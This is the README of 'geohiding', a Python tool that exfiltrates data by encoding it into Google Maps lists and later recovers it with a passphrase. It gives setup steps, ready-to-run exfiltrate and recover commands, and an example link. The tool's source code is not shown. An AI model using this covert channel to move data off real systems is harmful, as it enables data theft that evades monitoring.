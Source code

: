 # geohiding
A tool that allows exfiltrating data through Google Maps lists

# Requirements

Google Chrome needs to be installed in the system (recommeded to be installed in the Default location) 

Python3, install python dependencies with:

```
pip install -r requirements.txt
```

A google account logged in (in the Chrome browser).

Also chromedriver should be downloaded and in path. See https://chromedriver.chromium.org/downloads to download the driver according to your browser version (this can be checked in chrome://version).

# Execution 

## Exfiltration

To exfiltrate data, execute the following command
```
python3 main.py exfiltrate (-m MESSAGE | -i INPUT) -p PASSPHRASE -n NAME -l LOCATION [-R RADIUS]
  -m MESSAGE, --message MESSAGE
                        The message to hide
  -i INPUT, --input INPUT
                        The input file
  -p PASSPHRASE, --passphrase PASSPHRASE
                        A passphrase should be provided
  -n NAME, --name NAME  The name of the list
  -l LOCATION, --location LOCATION
                        The location to search
  -R RADIUS, --radius RADIUS
                        The radius from the location (in kilometers), default: 50km
```

## Recovery

To recover the data, use the following command:
```
python3 main.py recover google_maps_link -p PASSPHRASE [-o OUTPUT] 
  google_maps_link      The Google Maps link
  -p PASSPHRASE, --passphrase PASSPHRASE
                        A passphrase should be provided
  -o OUTPUT, --output OUTPUT
                        The output file name
```

## Example

Exfiltration:
```
> python3 main.py exfiltrate -m "Lorem ipsum" -p aUserPassphrase -n "Google Maps List Name" -l Vaduz -R 20
... 
Link: https://goo.gl/maps/EDShhyhN4Tpc6Zsb7
```

Recovery:
```
> python3 main.py recover https://goo.gl/maps/EDShhyhN4Tpc6Zsb7 -p aUserPassphrase
...
Output:
Lorem ipsum
```

## Troubleshooting

The program might not find your Google Chrome browser, therefore a warning will be shown.

If this happens, execute chrome the following way:

Windows:
```
chrome.exe --remote-debugging-port=9222 
```

Linux:
```
google-chrome --remote-debugging-port=9222 
```
